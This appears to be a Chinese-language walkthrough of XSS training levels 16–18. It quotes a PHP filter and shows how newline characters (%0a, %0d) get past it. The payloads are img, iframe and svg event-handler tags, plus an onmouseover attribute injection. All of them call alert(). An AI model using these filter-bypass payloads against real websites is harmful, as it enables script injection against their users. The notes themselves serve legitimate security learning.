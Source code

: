 
<br />

# level 16

部分源代码:
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```

* 大小写绕过失效
* `script`, `/`,`空格`等都被转换成`&nbsp`, 可以用`%0d`, `%0a`等绕过


> * `%0a`: 换行符
> * `%0d`: 回车符


构造payload：
```
<img%0Dsrc=1%0Donerror=alert(1)>

<iframe%0asrc=x%0donmouseover=alert'1'></iframe>

<svg%0aonload=alert'1'></svg>
```
> iframe一般用来包含别的页面


<br />

# level 17

试了别人了wp, 没反应...跳过.

关键词:
* 使用了htmlspecialchars进行实体编码
* 使用on事件触发

payload:
```
?arg01=a&arg02=b onmouseover=alert(1)
```

<br />

# level 18
